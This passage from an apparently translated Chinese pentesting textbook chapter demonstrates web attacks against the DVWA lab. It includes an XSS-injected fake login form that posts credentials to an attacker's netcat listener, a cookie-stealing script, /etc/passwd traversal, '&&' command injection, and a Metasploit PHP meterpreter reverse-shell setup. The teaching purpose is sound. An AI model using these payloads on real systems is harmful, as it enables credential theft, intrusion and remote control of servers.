1.  在 Kali Linux 中打开终端窗口。我们将使用`nc -lvp 80`命令在端口`80`上创建一个`netcat`简单 web 服务器。在这个命令中，我们使用`nc`命令启动`netcat`。`-l`开关用于启用监听模式，`v`用于详细输出，`p`定义我们将监听的端口号。执行命令后，`netcat`将侦听连接。

2.  使用相同的 XSS 反射页面，输入以下脚本：

```
<h3>Please login to proceed</h3> <form action=http://192.168.34.153>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

在这个脚本中，我们创建了一个简单的表单，它需要一个`username`和`password`。注意`form action=`字段。这里，我们使用的是攻击者 PC（Kali Linux）的 IP 地址，我们在那里启动了`netcat`侦听器。

3.  现在，我们正在显示一个表单。随机输入`username`和`password`并点击登录：



图 16：使用 XSS 注入的恶意表单

点击登录后，查看启动`netcat`侦听器的终端上的输出。web 应用已将登录请求发送给我们的侦听器，并且凭据以明文形式显示：



图 17:netcat 侦听器上捕获的登录请求

利用反射 XSS 可以进行更多的攻击，但关键是该漏洞的严重性。正如我们所看到的，获取敏感数据是可能的，这对任何具有易受攻击的 web 应用的组织都是有害的。

# 执行存储的 XSS 攻击

让我们来看看我们如何执行一个存储的 XSS 攻击。这里，我们将使用 DVWA 的 XSS 存储部分。我们将再次尝试获得`cookie`和`PHPSESSID`：

1.  登录到 DVWA 并单击存储的 XSS。在这里，我们有一个留言簿，人们可以在上面签名。我们将尝试在消息字段中输入一些代码。
2.  为名称输入任意值，然后使用前面使用的相同脚本：

```
<script>alert(document.cookie);</script>
```

3.  点击 Sign guestboo 后，`cookie`和`PHPSESSID`详细信息将显示：



图 18：使用存储的 XSS 提供敏感数据

由于这是存储的 XSS 攻击，如果导航到 DVWA web 应用的另一部分并返回到存储的 XSS，则当恶意脚本存储在数据库中时，弹出窗口将自动出现。

# 执行文件包含攻击

让我们执行本地和远程文件包含攻击。这两种攻击都将在 DVWA 上进行，我们将使 DVWA 的安全级别保持在较低的设置。

对于 LFI 攻击，我们将尝试浏览 web 服务器上的本地文件。驻留在 Linux 操作系统上的一个有价值的文件是`/etc/passwd`文件。让我们开始：

1.  登录到 DWVA 后，单击左侧的文件包含。
2.  让我们尝试导航到`/etc/passwd`文件。因为我们不知道 web 应用运行的本地工作目录是什么，所以我们将使用一系列字符来执行目录遍历。在地址栏中，在`?page=`之后添加`../../../../../etc/passwd`，如下图所示。目录遍历中使用`../`返回上一个目录。此处需要进行实验，因为您可能不知道目标 web 应用在服务器目录结构中的位置：


图 19：使用 LFI 进行目录遍历

3.  一旦你点击*进入*，你就会有很多输出。在输出中，您将找到`/etc/passwd`文件的内容：


图 20：暴露的/etc/passwd 文件的内容

通过使用 LFI 攻击，您可以做的不仅仅是公开系统文件。您可以将文件上载到 web 服务器并启动反向 shell。

# 执行命令执行攻击

我们将使用 DVWA 并了解如何执行命令执行攻击。我们将 DVWA 的安全级别保持在低设置：

1.  登录到 DVWA 应用并单击左侧的命令执行。

2.  让我们尝试执行一个简单的命令，例如列出当前目录。由于表单需要一个 IP 地址，我们将定义一个 IP，但使用附加字符`&&`添加额外的命令。要列出目录，我们将使用`-ls -la`。完整的评论将是`192.168.34.153 && ls -la`。
    在这个命令中，我们定义了一个随机 IP（我正在使用我的 Kali 虚拟机的 IP），并使用`&&`附加了一个额外的命令。此命令列出了`ls`目录。我们可以使用长长的列表`-l`查看这些文件，并包括所有文件`a`。以下是我们收到的输出：


图 21：命令执行攻击

在这里，我们有实际的 ping 命令，但在底部，我们有当前目录的列表。现在，我们知道命令执行是可能的。让我们看看是否可以使用 Metasploit 获得远程 shell。

3.  在终端窗口中，我们将使用`msfconsole`命令启动 Metasploit 框架。
4.  我们将使用脚本传递漏洞。输入`use exploit/multi/script/web_delivery`命令，然后输入`show options`查看可用选项：



图 22：在 Metasploit 中加载漏洞

5.  现在，我们需要定义目标。通过使用`show targets`命令，我们可以看到此漏洞攻击将针对哪些目标。在我们的案例中，我们将使用`PHP`：



图 23：利用漏洞的可用目标

6.  现在，我们将配置该漏洞。设置以下选项：

```
set Target 1
set LHOST 192.168.34.153
set LPORT 1337
set payload php/meterpreter/reverse_tcp
```

记住，`LHOST`是您的 Kali 虚拟机 IP，`LPORT`可以是任何随机端口号。我们使用的负载是反向 TCP`meterpreter`外壳。您可以使用`show options`命令确认您的选项：


图 24：配置漏洞利用选项

7.  配置完这些选项后，使用`run`命令运行漏洞利用。注意输出。突出显示的代码是我们将在命令执行攻击中使用的代码，用于为我们的攻击系统生成一个反向外壳。复制该代码，不要关闭终端窗口或退出 Metasploit：


图 25：使用定义的反向 PHP 脚本运行的漏洞

8.  返回 DVWA 中的命令执行页面。现在，输入一个 IP 地址并使用`&&`和 Metasploit 生成的代码将其追加：


图 26：使用命令执行攻击运行恶意脚本

单击提交后，您将开始一个`meterpreter`会话。返回到终端窗口，在该窗口中配置了漏洞利用。

9.  现在，您将看到您已经启动并运行了`meterpreter`会话。点击*输入*将带您返回漏洞利用配置页面，但您的会话仍将建立。您可以使用`sessions -i`命令来检查这一点。要访问此会话，请使用`sessions -i [session ID]`命令：


图 27：建立的流量计会话

10.  从这里，您将能够利用 MeterMeter 的全部功能。您可以使用`shell`命令访问操作系统外壳。从这里开始，您将能够采取进一步的攻击：



图 28：访问操作系统外壳

正如我们所看到的，通过这次攻击，您可以使用多种选项来进一步利用此漏洞。可以使用 Metasploit 框架等工具轻松利用命令执行漏洞。

# 总结

在本章中，您了解了 web 应用及其体系结构以及组件。您已经了解了不同类型的 web 应用测试，我们特别关注渗透测试。您深入了解了 HTTP 协议以及请求和响应标题中的详细内容。最后，您了解了各种 web 应用攻击以及如何在测试环境中执行这些攻击。

在[第 9 章](09.html)、*无线攻击入门*中，我们将讨论无线体系结构、它们的攻击以及如何执行它们。

# 问题

1.  请说出三种 web 应用体系结构中的一种。
2.  HTTP 和 HTTPS 之间有什么区别？
3.  在 HTTP 响应头中可以操纵什么来执行 XSS 攻击？
4.  列出两种类型的 web 应用攻击。
5.  什么工具可以用来创建 PHP 后门负载？*